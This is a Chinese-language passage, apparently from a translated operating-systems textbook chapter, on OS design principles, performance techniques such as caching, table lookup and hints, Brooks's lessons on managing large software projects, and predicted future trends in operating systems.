可能发生这种情况的一个显而易见的例子是P是调度器。假设某个进程用完了它的时间配额，并且操作系统正将其移动到其队列的末尾。在列表处理的半路，中断发生了，使得某个进程就绪，并且运行调度器。由于队列处于不一致的状态，系统有可能会崩溃。因此，即使在单处理器上，最好是操作系统的大部分为可重入的，关键的数据结构用互斥量来保护，并且在中断不被允许的时刻禁用中断。
5.蛮力法
使用蛮力法解决问题多年以来获得了较差的名声，但是依据简单性它经常是行之有效的方法。每个操作系统都有许多很少会调用的过程或是具有很少数据的操作，不值得对它们进行优化。例如，在系统内部经常有必要搜索各种表格和数组。蛮力算法只是让表格保持表项建立时的顺序，并且当必须查找某个东西时线性地搜索表格。如果表项的数目很少（例如少于1000个），对表格排序或建立散列表的好处不大，但是代码却复杂得多并且很有可能在其中存在错误。
当然，对处于关键路径上的功能，例如上下文切换，使它们加快速度的一切措施都应该尽力去做，即使可能要用汇编语言编写它们。但是，系统的大部分并不处于关键路径上。例如，许多系统调用很少被调用。如果每隔1秒有一个fork调用，并且该调用花费1毫秒完成，那么即便将其优化到花费0秒也不过仅有0.1%的获益。如果优化过的代码更加庞大且有更多错误，那就不必多此一举了。
6.首先检查错误
由于各种各样的原因，许多系统调用可能潜在地会失败：要打开的文件属于他人；因为进程表满而创建进程失败；或者因为目标进程不存在而使信号不能被发送。操作系统在执行调用之前必须无微不至地检查每一个可能的错误。
许多系统调用还需要获得资源，例如进程表的空位、i节点表的空位或文件描述符。一般性的建议是在获得资源之前，首先进行检查以了解系统调用能否实际执行，这样可以省去许多麻烦。这意味着，将所有的测试放在执行系统调用的过程的开始。每个测试应该具有如下的形式：
if(error_condition)return(ERROR_CODE);
如果调用通过了所有严格的测试，那么就可以肯定它将会取得成功。在这一时刻它才能获得资源。
如果将获得资源的测试分散开，那么就意味着如果在这一过程中某个测试失败，到这一时刻已经获得的所有资源都必须归还。如果在这里发生了一个错误并且资源没有被归还，可能并不会立刻发生破坏。例如，一个进程表项可能只是变得永久地不可用。然而，随着时间的流逝，这一差错可能会触发多次。最终，大多数或全部进程表项可能都会变得不可用，导致系统以一种极度不可预料且难以调试的方式崩溃。
许多系统以内存泄漏的形式遭受了这一问题的侵害。典型地，程序调用malloc分配了空间，但是以后忘记了调用free释放它。逐渐地，所有的内存都消失了，直到系统重新启动。
Engler等人（2000）推荐了一种有趣的方法在编译时检查某些这样的错误。他们注意到程序员知道许多定式而编译器并不知道，例如当你锁定一个互斥量的时候，所有在锁定操作处开始的路径都必须包含一个解除锁定的操作并且在相同的互斥量上没有更多的锁定。他们设计了一种方法让程序员将这一事实告诉编译器，并且指示编译器在编译时检查所有路径以发现对定式的违犯。程序员还可以设定已分配的内存必须在所有路径上释放，以及设定许多其他的条件。
所有事情都是平等的，一个快速的操作系统比一个慢速的操作系统好。然而，一个快速而不可靠的操作系统还不如一个慢速但可靠的操作系统。由于复杂的优化经常会导致程序错误，有节制地使用它们是很重要的。尽管如此，在性能是至关重要的地方进行优化还是值得的。在下面几节我们将看一些一般的技术，这些技术在特定的地方可以用来改进性能。
在讨论优化技术之前，值得指出的是许多操作系统运行缓慢在很大程度上是操作系统自身造成的。例如，古老的操作系统，如MS-DOS和UNIX版本7在几秒钟内就可以启动。现代UNIX系统和Windows Vista尽管运行在快1000倍的硬件上，可能要花费几分钟才能启动。原因是它们要做更多的事情，有用的或无用的。看一个相关的案例。即插即用使得安装一个新的硬件设备相当容易，但是付出的代价是在每次启动时，操作系统都必须要检查所有的硬件以了解是否存在新的设备。这一总线扫描是要花时间的。
一种替代的（并且依作者看来是更好的）方法是完全抛弃即插即用，并且在屏幕上包含一个图标标明“安装新硬件”。当安装一个新的硬件设备时，用户可以点击图标开始总线扫描，而不是在每次启动的时候做这件事情。当然，当今的系统设计人员是完全知道这一选择的。但是他们拒绝这一选择，主要是因为他们假设用户太过愚笨而不能正确地做这件事情（尽管他们使用了更加友好的措辞）。这只是一个例子，但是还存在更多的事例，期望让系统“用户友好”（或者“防傻瓜”，取决于你的看法）却使系统始终对所有用户是缓慢的。
或许系统设计人员为改进性能可以做的最大的一件事情，是对于添加新的功能特性更加具有选择性。要问的问题不是“用户会喜欢吗？”而是“这一功能特性按照代码大小、速度、复杂性和可靠性值得不计代价吗？”只有当优点明显地超过缺点的时候，它才应该被包括。程序员倾向于假设代码大小和程序错误计数为0并且速度为无穷大。经验表明这种观点有些过于乐观。
另一个重要因素是产品的市场销售。到某件产品的第4或第5版上市的时候，真正有用的所有功能特性或许已经全部包括了，并且需要该产品的大多数人已经拥有它了。为了保持销售，许多生产商仍然继续生产新的版本，具有更多的功能特性，正是这样才可以向现有的顾客出售升级版。只是为了添加新的功能特性而添加新的功能特性可能有助于销售，但是很少会有助于性能。
作为一般的规则，系统的第一版应该尽可能简单明了。惟一的优化应该是那些显而易见要成为不可避免的问题的事情。为文件系统提供块高速缓存就是这样的一个例子。一旦系统引导起来并运行，就应该仔细地测量以了解时间真正花在了什么地方。基于这些数字，应该在最有帮助的地方做出优化。
这里有一个关于优化不但不好反而更坏的真实故事。作者的一名学生编写了MINIX的mkfs程序。该程序在一个新格式化的磁盘上布下一个新的文件系统。这名学生花了大约6个月的时间对其进行优化，包括放入磁盘高速缓存。当他上交该程序时，它不能工作，需要另外几个月进行调试。在计算机的生命周期中，当系统安装时，该程序典型地在硬盘上运行一次。它还对每块做格式化的软盘运行一次。每次运行大约耗时2秒。即使未优化的版本耗时1分钟，花费如此多的时间优化一个很少使用的程序也是相当不值的。
对于性能优化，一条相当适用的口号是：
足够好就够好了。
通过这条口号我们要表达的意思是：性能一旦达到一个合理的水平，榨出最后一点百分比的努力和复杂性或许并不值得。如果调度算法相当公平并且在90%的时间保持CPU忙碌，它就尽到了自己的职责。发明一个改进了5%但是要复杂得多的算法或许是一个坏主意。类似地，如果缺页率足够低到不是瓶颈，克服重重难关以获得优化的性能通常并不值得。避免灾难比获得优化的性能要重要得多，特别是针对一种负载的优化对于另一种负载可能并非优化的情况。
改进性能的一种一般性的方法是权衡时间与空间。在一个使用很少内存但是速度比较慢的算法与一个使用很多内存但是速度更快的算法之间进行选择，这在计算机科学中是经常发生的事情。在做出重要的优化时，值得寻找通过使用更多内存加快了速度的算法，或者反过来通过做更多的计算节省了宝贵的内存的算法。
一种常用而有益的技术是用宏来代替小的过程。使用宏消除了通常与过程调用相关联的开销。如果调用出现在一个循环的内部，这种获益尤其显著。例如，假设我们使用位图来跟踪资源，并且经常需要了解在位图的某一部分中有多少个单元是空闲的。为此，我们需要一个过程bit_count来计数一个字节中值为1的位的个数。图13-7a中给出了简单明了的过程。它对一个字节中的各个位循环，每次计数它们一次。
该过程有两个低效的根源。首先，它必须被调用，必须为它分配栈空间，并且必须返回。每个过程调用都有这个开销。第二，它包含一个循环，并且总是存在与循环相关联的某些开销。
一种完全不同的方法是使用图13-7b中的宏。这个宏是一个内联表达式，它通过对参数连续地移位，屏蔽除低位以外的其他位，并且将8个项相加，这样来计算位的和。这个宏决不是一件艺术作品，但是它只在代码中出现一次。当这个宏被调用时，例如通过
sum=bit_count(table[i]);
这个宏调用看起来与过程调用等同。因此，除了定义有一点凌乱以外，宏中的代码看上去并不比过程中的代码要差，但是它的效率更高，因为它消除了过程调用的开销和循环的开销。
我们可以更进一步研究这个例子。究竟为什么计算位计数？为什么不在一个表中查找？毕竟只有256个不同的字节，每个字节具有0到8之间的惟一的值。我们可以声明一个256项的表bits，每一项（在编译时）初始化成对应于该字节值的位计数。采用这一方法在运行时根本就不需要计算，只要一个变址操作就可以了。图13-7c中给出了做这一工作的宏。
这是用内存换取计算时间的明显的例子。然而，我们还可以再进一步。如果需要整个32位字的位计数，使用我们的bit_count宏，每个字我们需要执行四次查找。如果将表扩展到65 536项，每个字查找两次就足够了，代价是更大的表。
在表中查找答案可以用在其他方面。例如，在第7章中，我们看到了JPEG图像压缩是怎样工作的，它使用了相当复杂的离散余弦变换。另一种压缩技术GIF使用表查找来编码24位RGB图像。然而，GIF只对具有256种颜色或更少颜色的图像起作用。对于每幅要压缩的图像，构造一个256项的调色板，每一项包含一个24位的RGB值。压缩过的图像于是包含每个像素的8位索引，而不是24位颜色值，增益因子为3。图13-8中针对一幅图像的一个4×4区域说明了这一思想。原始未压缩的图像如图13-8a所示，该图中每个取值是一个24位的值，每8位给出红、绿和蓝的强度。GIF图像如图13-8b所示，该图中每个取值是一个进入调色板的8位索引。调色板作为图像文件的一部分存放，如图13-8c所示。实际上，GIF算法的内容比这要多，但是思想的核心是表查找。
存在减少图像大小的另一种方法，并且这种方法说明了一种不同的权衡。PostScript是一种程序设计语言，可以用来描述图像。（实际上，任何程序设计语言都可以描述图像，但是PostScript专为这一目的进行了调节。）许多打印机具有内嵌的PostScript解释器，能够运行发送给它们的PostScript程序。
例如，如果在一幅图像中存在一个像素矩形块具有相同的颜色，用于该图像的PostScript程序将携带指令，用来将一个矩形放置在一定的位置并且用一定的颜色填充该矩形。只需要少数几个位就可以发出此命令。当打印机接收图像时，打印机中的解释器必须运行程序才能绘制出图像。因此，PostScript以更多的计算为代价实现了数据压缩，这是与表查找不同的一种权衡，但是当内存或带宽不足时是颇有价值的。
其他的权衡经常牵涉数据结构。双向链表比单向链表占据更多的内存，但是经常使得访问表项速度更快。散列表甚至更浪费空间，但是要更快。简而言之，当优化一段代码时要考虑的重要事情之一是：使用不同的数据结构是否将产生最佳的时间-空间平衡。
用于改进性能的一种众所周知的技术是高速缓存。在任何相同的结果可能需要多次的情况下，高速缓存都是适用的。一般的方法是首先做完整的工作，然后将结果保存在高速缓存中。对于后来的尝试，首先要检查高速缓存。如果结果在高速缓存中，就使用它。否则，再做完整的工作。
我们已经看到高速缓存在文件系统内部的运用，在高速缓存中保存一定数目最近用过的磁盘块，这样在每次命中时就可以省略磁盘读操作。然而，高速缓存还可以用于许多其他目的。例如，解析路径名就代价高昂得令人吃惊。再次考虑图4-35中UNIX的例子。为了查找/usr/ast/mbox，需要如下的磁盘访问：
1)读入根目录的i节点（i节点1）。
2)读入根目录（磁盘块1）。
3)读入/usr的i节点（i节点6）。
4)读入/usr目录（磁盘块132）。
5)读入/usr/ast的i节点（i节点26）。
6)读入/usr/ast目录（磁盘块406）。
只是为了获得文件的i节点号就需要6次磁盘访问。然后必须读入i节点本身以获得磁盘块号。如果文件小于块的大小（例如1024字节），那么需要8次磁盘访问才读到数据。
某些系统通过对（路径，i节点）的组合进行高速缓存来优化路径名的解析。对于图4-35的例子，在解析/usr/ast/mbox之后，高速缓存中肯定会保存图13-9的前三项。最后三项来自解析其他路径。
当必须查找一个路径时，名字解析器首先查阅高速缓存并搜索它以找到高速缓存中存在的最长的子字符串。例如，如果存在路径/usr/ast/grants/stw，高速缓存会返回/usr/ast/是i节点26这样的事实，这样搜索就可以从这里开始，消除了四次磁盘访问。
对路径进行高速缓存存在的一个问题是，文件名与i节点号之间的映射并不总是固定的。假设文件/usr/ast/mbox从系统中被删除，并且其i节点重用于不同用户所拥有的不同的文件。随后，文件/usr/ast/mbox再次被创建，并且这一次它得到i节点106。如果不对这件事情进行预防，高速缓存项现在将是错误的，并且后来的查找将返回错误的i节点号。为此，当一个文件或目录被删除时，它的高速缓存项以及（如果它是一个目录的话）它下面所有的项都必须从高速缓存中清除。
磁盘块与路径名并不是能够高速缓存的惟一项目，i节点也可以被高速缓存。如果弹出的线程用来处理中断，每个这样的线程需要一个栈和某些附加的机构。这些以前用过的线程也可以被高速缓存，因为刷新一个用过的线程比从头创建一个新的线程更加容易（为了避免必须分配内存）。难于生产的任何事物几乎都能够被高速缓存。
高速缓存项总是正确的。高速缓存搜索可能失败，但是如果找到了一项，那么这一项保证是正确的并且无需再费周折就可以使用。在某些系统中，包含线索（hint）的表是十分便利的。这些线索是关于答案的暗示，但是它们并不保证是正确的。调用者必须自行对结果进行验证。
众所周知的关于线索的例子是嵌在Web页上的URL。点击一个链接并不能保证被指向的Web页就在那里。事实上，被指向的网页可能10年前就被删除了。因此包含URL的网页上面的信息只是一个线索。
线索还用于连接远程文件。信息是提示有关远程文件某些事项的线索，例如文件存放的位置。然而，自该线索被记录以来，文件可能已经被移动或者被删除了，所以为了明确线索是否正确，总是需要进行检查。
进程和程序的行为并不是随机的，它们在时间上和空间上展现出相当程度的局部性，并且可以以各种方式利用该信息来改进性能。空间局部性的一个常见例子是这样的事实：进程并不是在其地址空间内部随机地到处跳转的。在一个给定的时间间隔内，它们倾向于使用数目比较少的页面。进程正在有效地使用的页面可以被标记为它的工作集，并且操作系统能够确保当进程被允许运行时，它的工作集在内存中，这样就减少了缺页的次数。
局部化原理对于文件也是成立的。当一个进程选择了一个特定的工作目录时，很可能将来许多文件引用将指向该目录中的文件。通过在磁盘上将每个目录的所有i节点和文件就近放在一起，可能会获得性能的改善。这一原理正是Berkeley快速文件系统的基础（McKusick等人，1984）。
局部性起作用的另一个领域是多处理器系统中的线程调度。正如我们在第8章中看到的，在多处理器上一种调度线程的方法是试图在最后一次用过的CPU上运行每个线程，期望它的某些内存块依然还在内存的高速缓存中。
区分最常见的情况和最坏可能的情况并且分别处理它们，这通常是一个好主意。针对这两者的代码常常是相当不同的。重要的是要使常见的情况速度快。对于最坏的情况，如果它很少发生，使其正确就足够了。
第一个例子，考虑进入一个临界区。在大多数时间中，进入将是成功的，特别是如果进程在临界区内部不花费很多时间的话。Windows Vista提供的一个Win32 API调用EnterCriticalSection就利用了这一期望，它自动地在用户态测试一个标志（使用TSL或等价物）。如果测试成功，进程只是进入临界区并且不需要内核调用。如果测试失败，库过程将调用一个信号量上的down操作以阻塞进程。因此，在通常情况下是不需要内核调用的。
第二个例子，考虑设置一个警报（在UNIX中使用信号）。如果当前没有警报待完成，那么构造一个警报并且将其放在定时器队列上是很简单的。然而，如果已经有一个警报待完成，那么就必须找到它并且从定时器队列中删除。由于alarm调用并未指明是否已经设置了一个警报，所以系统必须假设最坏的情况，即有一个警报。然而，由于大多数时间不存在警报待完成，并且由于删除一个现有的警报代价高昂，所以区分这两种情况是一个好主意。
做这件事情的一种方法是在进程表中保留一个位，表明是否有一个警报待完成。如果这一位为0，就好办了（只是添加一个新的定时器队列项而无须检查）。如果该位为1，则必须检查定时器队列。
程序员是天生的乐观主义者。他们中的大多数认为编写程序的方式就是急切地奔向键盘并且开始击键，不久以后完全调试好的程序就完成了。对于非常大型的程序，事实并非如此。在下面几节，关于管理大型软件项目，特别是大型操作系统项目，我们有一些看法要陈述。
经典著作《人月神话》的作者Fred Brooks是OS/360的设计者之一，他后来转向了学术界。在这部经典著作中，Fred Brooks讨论了建造大型操作系统为什么如此艰难的问题（Brooks,1975,1995）。当大多数程序员看到他声称程序员在大型项目中每年只能产出1000行调试好的代码时，他们怀疑Brooks教授是否生活在外层空间，或许是在臭虫星（Planet Bug——此处Bug为双关语）上。毕竟，他们中的大多数在熬夜的时候一个晚上就可以产出1000行程序。这怎么可能是任何一个IQ大于50的人一年的产出呢？
Brooks指出的是，具有几百名程序员的大型项目完全不同于小型项目，并且从小型项目获得的结果并不能放大到大型项目。在一个大型项目中，甚至在编码开始之前，大量的时间就消耗在规划如何将工作划分成模块、仔细地说明模块及其接口，以及试图设想模块将怎样互相作用这样的事情上。然后，模块必须独立地编码和调试。最后，模块必须集成起来并且必须将系统作为一个整体来测试。通常的情况是，每个模块单独测试时工作得十分完美，但是当所有部分集成在一起时，系统立刻崩溃。Brooks将工作量估计如下：
·1/3规划
·1/6编码
·1/4模块测试
·1/4系统测试
换言之，编写代码是容易的部分，困难的部分是断定应该有哪些模块并且使模块A与模块B正确地交互。在由一名程序员编写的小型程序中，留待处理的所有部分都是简单的部分。
Brooks的书的标题来自他的断言，即人与时间是不可互换的。不存在“人月”这样的单位。如果一个项目需要15个人花2年时间构建，很难想像360个人能够在1个月内构建它，甚至让60个人在6个月内做出它或许也是不可能的。
产生这一效应有三个原因。第一，工作不可能完全并行化。直到完成规划并且确定了需要哪些模块以及它们的接口，甚至都不能开始编码。对于一个2年的项目，仅仅规划可能就要花费8个月。
第二，为了完全利用数目众多的程序员，工作必须划分成数目众多的模块，这样每个人才能有事情做。由于每个模块可能潜在地与每个其他模块相互作用，需要将模块-模块相互作用的数目看成随着模块数目的平方而增长，也就是说，随着程序员数目的平方而增长。这一复杂性很快就会失去控制。对于大型项目而言，人与月之间的权衡远不是线性的，对63个软件项目精细的测量证实了这一点（Boehm,1981）。
第三，调试工作是高度序列化的。对于一个问题，安排10名调试人员并不会加快10倍发现程序错误。事实上，10名调试人员或许比一名调试人员还要慢，因为他们在相互沟通上要浪费太多的时间。
对于人员与时间的权衡，Brooks将他的经验总结在Brooks定律中：
对于一个延期的软件项目，增加人力将使它更加延期。
增加人员的问题在于他们必须在项目中获得培训，模块必须重新划分以便与现在可用的更多数目的程序员相匹配，需要开许多会议来协调各方面的努力等。Abdel-Hamid和Madnick（1991）用实验方法证实了这一定律。用稍稍不敬的方法重述Brooks定律就是：
无论分配多少妇女从事这一工作，生一个孩子都需要9个月。
商业操作系统是大型的软件项目，总是需要大型的人员团队。人员的质量极为重要。几十年来人们已经众所周知的是，顶尖的程序员比拙劣的程序员生产率要高出10倍（Sackman等人，1968）。麻烦在于，当你需要200名程序员时，找到200名顶尖的程序员非常困难，对于程序员的质量你不得不有所将就。
在任何大型的设计项目（软件或其他）中，同样重要的是需要体系结构的一致性。应该有一名才智超群的人对设计进行控制。Brooks引证兰斯大教堂 [1] 作为大型项目的例子，兰斯大教堂的建造花费了几十年的时间，在这一过程中，后来的建筑师完全服从于完成最初风格的建筑师的规划。结果是其他欧洲大教堂无可比拟的建筑结构的一致性。
在20世纪70年代，Harlan Mills把“一些程序员比其他程序员要好很多”的观察结果与对体系结构一致性的需要相结合，提出了首席程序员团队（chief programmer team）的范式（Baker,1972）。他的思想是要像一个外科手术团队，而不是像一个杀猪屠夫团队那样组织一个程序员团队。不是每个人像疯子一样乱砍一气，而是由一个人掌握着手术刀，其他人在那里提供支持。对于一个10名人员的项目，Mills建议的团队结构如图13-10所示。
自从提出这一建议并付诸实施，30年过去了。一些事情已经变化（例如需要一个语言层——C比PL/I更为简单），但是只需要一名才智超群的人员对设计进行控制仍然是正确的。并且这名才智超群者在设计和编程上应该能够100%地起作用，因此需要支持人员。尽管借助于计算机的帮助，现在一个更小的支持人员队伍就足够了。但是在本质上，这一思想仍然是有效的。
任何大型项目都需要组织成层次结构。底层是许多小的团队，每个团队由首席程序员领导。在下一层，必须由一名经理人对一组团队进行协调。经验表明，你所管理的每一个人将花费你10%的时间，所以每10个团队的一个小组就需要一名全职的经理人。这些经理人也必须被管理。
Brooks观察到，坏消息不能很好地沿着树向上传播。麻省理工学院的Jerry Saltzer将这一效应称为坏消息二极管（bad-news diode）。因为存在着在两千年前将带来坏信息的信使斩首的古老传统，所以首席程序员或经理人都不愿意告诉他的老板项目延期了4个月，并且无论如何都没有满足最终时限的机会。因此，顶层管理者就项目的状态通常不明就里。当不能满足最终时限的情况变得十分明显时，顶层管理者的响应是增加人员，此时Brooks定律就起作用了。
实际上，大型公司拥有生产软件的丰富经验并且知道如果它随意地生产会发生什么，这样的公司趋向于至少是试图正确地做事情。相反，较小的、较新的公司，匆匆忙忙地希望其产品早日上市，不能总是仔细地生产他们的软件。这经常导致远远不是最优化的结果。
Brooks和Mills都没有预见到开放源码运动的成长。尽管该运动取得了某些成功，但是一旦新鲜感消失，它是否还是生产大量高质量软件的切实可行的模型还有待观察。回想早年无线电广播是由业余无线电操作人员占据支配地位的，但是很快就让位于商业无线电台和后来的商业电视台。值得注意的是，最为成功的开放源码软件项目显然使用了首席程序员模型，有一名才智超群者控制着体系结构设计（例如，Linus Torvalds控制着Linux内核，而Richard Stallman控制着GNU C编译器）。
拥有丰富经验的设计人员对于一个操作系统项目来说至关重要。Brooks指出，大多数错误不是在代码中，而是在设计中。程序员正确地做了吩咐他们要做的事情，而吩咐他们要做的事情是错误的。再多测试软件都无法弥补糟糕的设计说明书。
Brooks的解决方案是放弃图13-11a的经典开发模型而采用图13-11b的模型。此处的想法是首先编写一个主程序，它仅仅调用顶层过程，而顶层过程最初是哑过程。从项目的第一天开始，系统就可以编译和运行，尽管它什么都做不了。随着时间的流逝，模块被插入到完全的系统中。这一方法的成效是系统集成测试能够持续地执行，这样设计中的错误就可以更早地显露出来。实际上，拙劣的设计决策导致的学习过程在软件生命周期中应该更早就开始。
缺乏知识是一件危险的事情。Brooks注意到被他称为第二系统效应（second system effect）的现象。一个设计团队生产的第一件产品经常是最小化的，因为设计人员担心它可能根本就不能工作。结果，他们在加入许多功能特性方面是迟疑的。如果项目取得成功，他们会构建后续的系统。由于被他们自己的成功所感动，设计人员在第二次会包含所有华而不实的东西，而这些是他们在第一次有意省去的。结果，第二个系统臃肿不堪并且性能低劣。第二个系统的失败使他们在第三次冷静下来并且再次小心谨慎。
就这一点而言，CTSS和MULTICS这一对系统是一个明显的例子。CTSS是第一个通用分时系统并且取得了巨大的成功，尽管它只有最小化的功能。它的后继者MULTICS过于野心勃勃并因此而吃尽了苦头。MULTICS的想法是很好的，但是由于存在太多新的东西所以多年以来系统的性能十分低劣并且绝对不是一个重大的商业成功。在这一开发路线中的第三个系统UNIX则更加小心谨慎并且更加成功。
除了《人月神话》，Brooks还写了一篇有影响的学术论文，称为“No Silver Bullet”（没有银弹）（Brooks,1987）。在这篇文章中，他主张在十年之内由各色人等兜售的灵丹妙药中，没有一样能够在软件生产率上产生数量级的改进。经验表明他是正确的。
在建议的银弹中，包括更好的高级语言、面向对象的程序设计、人工智能、专家系统、自动程序设计、图形化程序设计、程序验证以及程序设计环境。或许在下一个十年将会看到一颗银弹，或许我们将只好满足于逐步的、渐进的改进。
做预测总是困难的——特别是关于未来。例如，1899年美国专利局局长Charles H.Duell请求当时的总统McKinley（麦金利）取消专利局（以及他的工作！），因为他声称“每件能发明的事物都已经发明了”（Cerf and Navasky,1984）。然而，Thomas Edison（托马斯・爱迪生）在几年之内就发明了几件新的物品，包括电灯、留声机和电影放映机。让我们将新电池装入我们的水晶球中，并且冒险猜测一下在最近的未来操作系统将走向何方。
虚拟化重回时代。它第一次出现在1967年的IBM CP/CMS系统中，现在它重回奔腾平台。最近许多计算机在裸机上运行管理程序，如图13-12所示。管理程序会创建多个虚拟机，每个虚拟机有单独的操作系统。有些计算机利用一个虚拟机为遗产应用创建Windows系统，利用几个虚拟机为当前应用运行Linux系统，或许也会在其他虚拟机上运行若干实验性操作系统。这种现象在第8章已经讨论，并且是未来的发展趋势。
多核芯片已经出现，但即使是双核，针对它们的操作系统还没有很好地利用其能力，更不用提64核。这些核会做什么事情？它们需要哪些软件？这些目前都是未知的。起初，人们试图通过对当前操作系统打补丁的方法来支持多核，但锁表问题和其他软件资源的问题使得这种方法不太可能成功，因此需要全新的思路来解决这些问题。
虚拟化和多核芯片的结合创造了一个全新的环境，这里CPU的数目是可编程的。对于8核芯片，软件可以在下列情况做同样的事情：只利用1个CPU而忽略其他7个；使用全部8个CPU；利用双道虚拟化获得16个虚拟CPU；利用四道虚拟化获得32个虚拟CPU；或更多其他组合。程序可以在启动时指定所需CPU数目，由操作系统来保证程序需求的满足。
随着计算机从32位地址空间转向64位地址空间，操作系统设计中的重大转变成为可能。32位地址空间并不大。如果你通过给地球上的每个人提供他或她自己的字节来试图分割232 个字节，那么将没有足够的字节可以提供。相反，264 大约是2×1019 。现在每个人可以得到他或她个人的3GB大的一块。
对于2×1019 字节的地址空间我们能做什么呢？首先，可以淘汰文件系统概念。作为替代，所有文件在概念上可以始终保存在（虚拟）内存中。毕竟在那里存在足够的空间，可以放下超过10亿部全长的电影，每一部压缩到4GB。
另一个可能的用途是永久对象存储。对象可以在地址空间中创建，并且保存在那里直到所有对它们的引用消失，在此时它们可以自动被删除。这样的对象在地址空间中是永久的，甚至是在关机和重新启动计算机的时候。有了64位的地址空间，在用光地址空间之前，可以用每秒100MB的速率创建对象长达5000年。当然，为了实际存储这么大量的数据，需要许多磁盘存储器用于分页交换，但是在历史上这是第一次限制因素是磁盘，而不是地址空间。
由于大量数目的对象在地址空间中，允许多个进程同时在相同的地址空间中运行，以便以一般的方式共享对象就变得十分有趣了。这样的设计显然会通向与我们现在所使用的操作系统完全不同的操作系统。有关这一概念的某些思想包含在参考文献（Chase等人，1994）中。
就64位地址而言，另一个必须重新思考的操作系统问题是虚拟内存。对于264 字节的虚拟地址空间和8KB的页面，我们有251 个页面。常规的页表不能很好地按比例变换到这样的大小，所以需要别的东西。反转的页表是可行的，但是也有人提出了其他的想法（Talluri等人，1995）。无论如何，64位操作系统为新的研究提供了大量的余地。
当前的操作系统是为独立的计算机而设计的。联网是事后添加的，并且一般通过特殊的程序访问，例如Web浏览器、FTP或telnet。在将来，联网或许将会是所有操作系统的基础。不具备网络连接的独立的计算机就像是没有连接到电话网的电话机一样罕见。并且很可能几Gbps的连接是标准的速率。
操作系统将不得不改变以适应这一范型的转变。本地数据与远程数据的区别可能会模糊到这样的程度：实际上没有人知道或者关心数据存放在什么地方。任何地方的计算机能够像本地数据一样处理任何地方的数据。在一个有限的范围内，对于NFS而言这已经成为现实，但是它很可能变得更加普遍并且更好地集成。
对于Web的访问现在需要特殊的程序（浏览器），将来可能会以一种无缝的方式完全集成到操作系统中。存储信息的标准方式可能会变为Web页面，并且这些页面可能包含各种各样的非文本项目，包括音频、视频、程序以及其他，它们全部作为操作系统的基本数据而管理。
另一个活跃的领域是并行系统与分布式系统。当前的多处理器操作系统和多计算机操作系统只是标准的单处理器操作系统对调度器进行了轻微的调整，以便对并行性处理得好一点。在将来，我们可能会看到这样的操作系统，其中并行性比现在更加处于中心地位。如果在多处理器配置下台式计算机很快拥有2个、4个或更多的CPU，这一效应将会大大地激发。这就可能导致许多应用程序为多处理器而设计，并且就要求操作系统对并发性要求提供更好的支持。
在未来几年，多计算机很可能在大规模科学与工程超级计算机中占据支配地位，但是它们的操作系统还相当原始。进程安置、负载平衡以及通信都需要做大量的工作。
目前分布式系统经常作为中间件来构建，因为现有的操作系统没有为分布式应用程序提供正确的设施。今后，操作系统的设计将会考虑到分布式系统，所以从一开始所有必要的功能特性在操作系统中就已经存在了。
多媒体系统在计算机世界里显然是一颗正在升起的明星。如果计算机、立体声音响、电视机和电话机全部合并在一起成为一个单一的设备，能够支持高质量的静止图像、音频和视频，并且连接到高速网络中，从而能够轻松地下载、交换和远程访问这些文件，可能不会有人感到吃惊。这些设备的操作系统，甚至是独立的音频和视频设备的操作系统，与现在的操作系统在本质上是不同的。特别地，实时保证是必须的，这将推动系统设计。此外，消费者完全不能容忍他们的数字电视时不时地崩溃，所以要求更好的软件质量和容错性。还有，多媒体文件倾向于非常长，所以必须改造文件系统以便能够有效地处理它们。
功能强大的台式计算机（可能拥有64位地址空间、高带宽网络、多处理器以及高品质的音频和视频）无疑很快就会普及。它们的操作系统必然与目前的操作系统有重大的区别，以便处理所有这些需求。然而，市场上增长甚至更快的部分是电池供电的计算机，包括笔记本、掌上机、Webpad、100美元的膝上机以及智能手机。它们中的某些机种拥有与外部世界的无线连接，其他的机种当它们不在家中与坞站对接时将运行在非连接的模式下。这就需要不同的操作系统，它们比当前的操作系统更加小巧、快速、灵活和可靠。在这里，各种各样的微内核与可扩展的系统可能形成这类操作系统的基础。
这些操作系统必须处理完全连接（也就是有线连接）、弱连接（也就是无线连接）和非连接操作，包括离线前的数据储藏和返回在线时的一致性分析，这些都要比当前的系统更好。它们还必须能比当前的系统更好地处理移动问题（例如找到一个激光打印机，登录到其上，并且通过无线电波把文件发送给它）。电源管理是必需的，这包括在操作系统与应用程序之间关于剩余多少电池电量以及电池如何最好利用的大量对话框。动态地改装应用程序以处理微小屏幕的局限可能变得十分重要。最后，新的输入和输出模式（包括手写和语音）可能需要操作系统的新技术以改善品质。电池供电、掌上无线、语音操作的计算机，与具有4个64位CPU的多处理器以及以GB为单位光纤网络连接的台式计算机，两者的操作系统不太可能有很多共同之处。当然，还存在无数的混交机种具有它们自己的需求。
新型操作系统将高速增长的最后一个领域是嵌入式系统。处于洗衣机、微波炉、玩具、晶体管收音机、MP3播放器、便携式摄像机、电梯以及心脏起搏器内部的操作系统将不同于上面的所有操作系统，并且很可能相互之间也不相同。每个操作系统或许都需要仔细地剪裁以适应其特定的应用，因为任何人都不大可能将一块PCI卡插入心脏起搏器将其变成一个电梯控制器。由于所有的嵌入式系统在设计时就知道它只运行有限数目的程序，所以对其进行优化是可能的，而这样的优化在通用系统中是做不到的。
对于嵌入式系统而言，一种有希望的思路是可扩展的操作系统（例如Paramecium和Exokernel）。这些操作系统可以随着应用程序的需要而被构建成轻量级的或重量级的，但是以一种应用程序间一致的方式。因为嵌入式系统将以上亿的量级生产，所以对于新型操作系统而言这是一个主要的市场。
虽然传感网络的市场并不大，但它们正被部署在很多环境中，从楼宇/边境监控到森林火险监测等。传感器是低成本、低功耗的，需要特别精简的操作系统，仅比运行时函数库复杂一些。随着功能强大的传感节点越来越便宜，我们会看到实际的操作系统运行其上，并尽可能针对其任务进行优化、尽可能节约功耗。一般来说，其电池寿命以月衡量，而无线传输是主要的电源消耗者，因此这些系统应该以节能为首要目标。
操作系统的设计开始于确定它应该做什么。接口应该是简单的、完备的和高效的。应该拥有一个清晰的用户界面范型、执行范型和数据范型。
系统应该具有良好的结构，使用若干种已知技术中的一种，例如分层结构或客户-服务器结构。内部组件应该是相互正交的，并且要清楚地分离策略与机制。大量的精力应该投入到诸如静态与动态数据结构、命名、绑定时机以及模块实现次序这样的一些问题上。
性能是重要的，但是优化应该仔细地选择，从而使优化不致于破坏系统的结构。空间-时间权衡、高速缓存、线索、利用局部性以及优化常见的情况等技术通常都值得尝试。
两三个人编写一个系统与300个人生产一个大型系统是不同的。在后一种情况下，团队结构和项目管理对于项目的成败起着至关重要的作用。
